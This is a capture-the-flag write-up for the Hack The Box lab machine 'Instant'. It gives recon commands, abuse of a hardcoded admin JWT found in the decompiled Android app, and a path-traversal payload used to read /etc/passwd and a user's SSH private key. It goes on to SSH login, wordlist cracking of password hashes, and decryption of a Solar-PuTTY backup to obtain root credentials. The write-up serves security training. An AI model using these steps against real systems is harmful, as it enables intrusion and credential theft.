Let’s scan the machine with nmap.
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 31:83:eb:9f:15:f8:40:a5:04:9c:cb:3f:f6:ec:49:76 (ECDSA)
|_ 256 6f:66:03:47:0e:8a:e0:03:97:67:5b:41:cf:e2:c7:c7 (ED25519)
80/tcp open http Apache httpd 2.4.58
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Did not follow redirect to http://instant.htb/
Service Info: Host: instant.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
We have an Http Server running at port 80.
In order to get access, we need to modify the /etc/hosts file, or use a tool like Burpsuite to change the Host header of the request to Host: instant.htb
# access the endpoint from the browser
sudo echo "10.10.11.37 instant.htb" >> /etc/hosts
The website is promoting an android application that offers customers cross-platform transactions.

We searched the website for any interesting endpoint that could be vulnerable to SQL injection or XSS vulnerability, but unfortunately there is nothing notable.
# Also used directory bruteforcing just to be sure
gobuster dir -u http://instant.htb/ -w /usr/share/worldlist/dirb/big.txt
# Then proceed with subdomain bruteforcing
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://instant.htb/ -H "Host: FUZZ.instant.htb"
Nothing… so let’s download and examine the application by requesting http://instant.htb/downloads/instant.apk or by simply clicking the “Download Now” button.
First, we can use the apkurlgrep tool (Github Repo) to extract endpoints from the apk.
apkurlgrep -a instant.apk >> apkUrls.txt

So we found a subdomain, mywalletv1.instant.htb that has some api endpoints for authentication and user activities.
Modify the /etc/hosts file accordingly and now let’s try to access these endpoints while proxying the traffic with Burpsuite.

We get a 201 response with ‘Unauthorized’ message. We don’t know a lot about the api yet, so we should see if we can find out more by the application.
Let’s use a decompiler, like jadx to inspect the code. In order to launch the GUI version, navigate to the bin directory and execute jadx-gui. Now open the instant.apk file.
Right off the bat we can see at AdminActivities class, a private function TestAdminAuthorization that constructs a new http request to /api/v1/view/profile and adds a header, Authorization: <JWT Token>

We may be able to use this token to authenticate as Admin.
 
Great! We are authorized to view the profile of admin.
Even though we got some useful information, something is missing. Continue with enumeration of inspect.apk.
We can unzip an Android .apk, exactly like a .zip file, but in this case to examine in more detail we will use apktool.
apktool d instant.apk -o instant-app
One thing we can check right away, is the res/xml/network_security_config.xml file, which is used to specify security details like certificate pins and HTTP traffic settings. An example is allowing HTTP traffic for specific domains. (HackTricks - Basic understanding of the application)
cat instant-app/res/xml/network_security_config.xml
# results
<?xml version="1.0" encoding="utf-8"?>
<network-security-config>
<domain-config cleartextTrafficPermitted="true">
<domain includeSubdomains="true">mywalletv1.instant.htb</domain>
<domain includeSubdomains="true">swagger-ui.instant.htb</domain>
</domain-config>
</network-security-config>
We got another subdomain, swagger-ui.instant.htb, which is the UI version of Swagger (framework that allows developers to create interactive, machine and human-readable API documentation).

Here we can see all the endpoints of the Api. Something we didn’t know is that there is logging system, which is interesting.
There is a /admin/read/log endpoint which is locked. In order to access it we need to provide the authorization token along with the file name.

Let’s try to put a path like, ../../../etc/passwd.
 
We just found a LFI (Local File Inclusion) vulnerability.
We can leverage this to find the private ssh key. Usually it is at .ssh/id_rsa.

And we got the private key. Now we can save it to a file locally and connect with ssh to the machine.
vim private_key #Save private key to a file
chmod 600 private_key #Give appropriate permissions
ssh -i private_key shirohige@10.10.11.37 #Connect with ssh
Nice, we got a foothold to the machine.
First examined sudo -l, capabilities, crontab, but nothing interesting popped up, so before proceeding into manual enumeration of the system, we could run linpeas.sh to see if we can find anything usefull.
python3 -m http.server 1234 #Start a server in kali
wget http://<ip_address>:1234/linpeas.sh #Download linpeas to the machine
Now we can execute the script. Some promising results are:
- Found a
SECRET_KEY(VeryStrongS3cretKeyY0uC4NTGET) variable at.env - Possible
snapdvulnerability, if it is2.37.1or newer - Possible usefull file at
opt/backups/Solar-PuTTY/sessions-backup.dat - Encrypted passwords for Users in Database (sqlite is used)

Unfortunately, the SECRET_KEY password does’t work for root and snapd version is way higher than 2.37.1. So let’s look into the instant.db file.
# Transfer instant.db with http.server or scp to Kali Linux
# Then connect to the database and examine
sqlite3 instant.db
sqlite3> .tables #see if there is any table with credentials
sqlite3> .schema wallet_users
sqlite3> .mode column #change output to column representation (easier to read)
sqlite3> select * from wallet_users;
  
We have three passwords to crack.
Let’s try to decrypt the pbkdf2:sha256 password. By googling pbkdf2:sha256 cracker site: github.com we can find Werkzeug-Cracker tool.
We got nothing by brute-forcing the admin password, but we found that the password for shirohige is estrella.
python3 werkzeug_cracker.py -p hash.txt -w /usr/share/wordlists/dirb/others/best1050.txt
Again we can’t su root with this password.
Next is to check the opt/backups/Solar-PuTTY/sessions-backup.dat file. Solar-Putty is an application that allows its users to connect remotely with ssh, telnet etc to the server (despite their OS). There might be credentials into that backup file.
By searching sessions backup solar putty file linux site: github.com we found SolarPuttyDecrypt, a tool to decrypt sessions-backup.dat.

After running the script in a Windows VM we found the credentials for root user.
